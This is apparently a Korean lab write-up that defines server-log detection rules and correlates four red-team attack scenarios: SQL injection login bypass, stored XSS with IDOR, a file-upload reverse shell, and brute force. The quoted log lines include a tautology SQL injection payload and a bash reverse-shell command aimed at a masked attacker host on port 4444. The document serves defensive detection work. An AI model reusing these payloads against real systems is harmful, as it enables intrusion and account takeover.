

# 서버 로그 분석 기준 및 시나리오별 상관분석

[← README로 돌아가기](../README.md)

## 1. 로그 분석 기준 (Python)

C&C에 수집·파싱된 로그에 아래 기준을 적용해 공격 여부를 판정하고 `detect_reason`에 기록합니다.

| 탐지 항목 | 로그 소스 | 판정 기준 |
|---|---|---|
| 시스템 브루트포스 시도 | vsftpd / secure | 동일 IP의 FAIL LOGIN이 60초 내 5회 이상 |
| 브루트포스 성공 (계정 탈취) | vsftpd / secure | 실패 5회 누적 상태에서 OK LOGIN / Accepted 발생 |
| 웹 로그인 브루트포스 시도 | access | `POST` + `login.php` 요청이고 상태코드 ≠ 302인 요청이 60초 내 5회 |
| 웹 로그인 브루트포스 성공 | access | 위 실패 5회 누적 후 302 응답 발생 |
| 위험 확장자 스캔 | access | URI에 `.php .jsp .exe .reg .sh .ps1` 중 하나가 포함된 요청이 60초 내 5회 |
| 웹 디렉터리 정찰 | access | 4xx 응답이 60초 내 10회 |
| Path Traversal / LFI | access | URI에 `../` 또는 `/etc/passwd` 포함 (1회 즉시) |
| IDOR (연속 ID 조작) | access | `id=숫자`, `/users/숫자`, `/order.php?id=N&action=cancel` 매칭이 60초 내 5회 |
| 세션 하이재킹 | access | 동일 쿠키값이 최초 기록된 IP와 다른 IP에서 재사용 (1회 즉시) |
| SQL Injection | access / modsec | 디코딩 후 SQLi 시그니처 1개라도 매칭 (1회 즉시) |
| XSS | access / modsec | 디코딩 후 XSS 시그니처 1개라도 매칭 (1회 즉시) |
| 리버스셸 / C2 연결 | audit (`type=EXECVE`만) | hex 디코딩 후 셸 시그니처 1개라도 매칭 (1회 즉시) |
| DNS Zone Transfer | named / query | 레코드 타입이 AXFR 또는 IXFR (1회 즉시) |
| DNS 터널링 | named / query | 질의 도메인 길이 80자 이상이 60초 내 30회 |
| SNMP 인증 실패 | snmp | 로그 라인에 `Authentication failure` 문자열 (1회 즉시) |
| DB 직접 SQL Injection | mariadb / server_audit | 쿼리 URL 디코딩 후 SQLi 시그니처 매칭 |

## 2. 시나리오별 상관분석

레드팀이 수행한 4개 공격 시나리오를 서버 로그만으로 재구성한 결과입니다. 실습망 사설 IP 기준이며, 세션 쿠키는 마스킹했습니다.

### SCN-01. SQL Injection을 통한 인증 우회

| 시각 | 로그 | 핵심 내용 |
|---|---|---|
| 17:48:55 | modsecurity | `POST /login.php`, rule 942100 (SQL Injection via libinjection), `ARGS:username: ' OR '1'='1' -- -` |
| 17:48:55 | mariadb-audit | `SELECT * FROM users WHERE username='' OR '1'='1' -- -' …` → retcode 0 (실행 성공) |
| 17:48:55 | mariadb-audit | 다른 시도는 1064(문법 오류)·1054(`ORDER BY 14` 컬럼 탐색) |
| 17:48:55 | nginx-access | `POST /login.php` → **302**, User-Agent `python-requests` |

**판단**: 같은 시각에 audit에서 항진식 쿼리가 성공(0)했고 access에서 302(로그인 성공)가 나왔으므로, SQL 주입이 실제 인증 우회로 성립했다고 확정. 공격자 IP는 access 로그에서 식별.

### SCN-02. 저장형 XSS 기반 세션 탈취 · IDOR 주문 취소

| 시각 | 로그 | 핵심 내용 | detect_reason |
|---|---|---|---|
| 18:00:15 | modsecurity | `POST /review_submit.php`, rule 920350 | WAF 룰 매치 |
| 18:00:15 | nginx-access | `POST /review_submit.php` → 302 | 저장형 XSS 리뷰 등록 |
| 18:28:38 | nginx-access | `GET /order.php?id=1&action=cancel` → 200 | 60초 내 5회 이상 ID 순차 조회 (IDOR 의심) |
| 18:28:38 | mariadb-audit | `UPDATE orders SET status=cancelled WHERE id=?` | 권한 위반 주문 상태 변경 |

**판단**: access의 `action=cancel`(200)과 audit의 `UPDATE … cancelled`를 엮어 실제 취소 5건을 확정. 피해자 세션 유출·피싱 카드 수집처럼 대상 웹서버를 거치지 않는 구간은 서버 로그에 남지 않지만, 앞뒤의 XSS 리뷰 등록과 주문 취소 기록으로 피싱 가능성을 추정하고 피해 규모는 DB 흔적으로 산정.

### SCN-03. 파일 업로드를 통한 리버스셸 (RCE)

| 시각 | 로그 | 핵심 내용 | detect_reason |
|---|---|---|---|
| 17:54:45 | modsecurity | `POST /profile.php`, rule 933110, `FILES:avatar: reverseshell.php` | 위험 실행 확장자(.php) 업로드 |
| 17:54:45 | auditd | `EXECVE` `bash -c bash -i >& /dev/tcp/<공격자>/4444 0>&1` | 리버스셸 명령어 매칭 (`bash -i`) |
| 17:54:48 | nginx-access | `GET /uploads/reverseshell.php` → 200 | 업로드 경로 직접 실행 |
| 17:54:48 | auditd | php-fpm child **PID 1017**, `/dev/tcp/…: no route to host` | C2 연결 시도 (`/dev/tcp`) |

**판단**: 시각(17:54:45~48)과 PID(1017)로 엮으면 업로드 → 웹셸 실행 → 리버스셸 연결 시도의 전 과정이 하나의 사건으로 확정됨.

### SCN-04. 브루트포스를 통한 계정 탈취

| 시각 | 로그 | 핵심 내용 | detect_reason |
|---|---|---|---|
| 17:56:05 | mariadb-audit | `SELECT * FROM users WHERE username='admin' AND password_plain='…'` | admin 계정 사전 대입 |
| 17:56:05 | nginx-access | `POST /login.php` → 200 (**×44**) | 60초 내 5회 이상 로그인 실패 |
| 17:56:06 | nginx-access | `POST /login.php` → 302 (**×3**) | 브루트포스 후 로그인 성공 (계정 탈취) |

**판단**: 같은 요청에서 실패는 200, 성공은 302로 갈리므로 302가 유효 계정의 유일한 신호. audit에 남은 대입 값과 대조해 성공한 자격증명 조합을 확정.

## 3. 탐지 계층 매트릭스

(X)는 해당 계층이 원리상 남기지 못하거나 현재 설정에서 남기지 않는 정보입니다. 예를 들어 ModSecurity는 요청 본문을, nginx access는 POST 본문을, MariaDB audit은 공격자 IP를 남기지 않습니다. 그래서 한 계층만으로는 결론을 낼 수 없고, 여러 로그를 시간·IP·PID로 엮어야 공격 성공 여부를 확정할 수 있습니다.
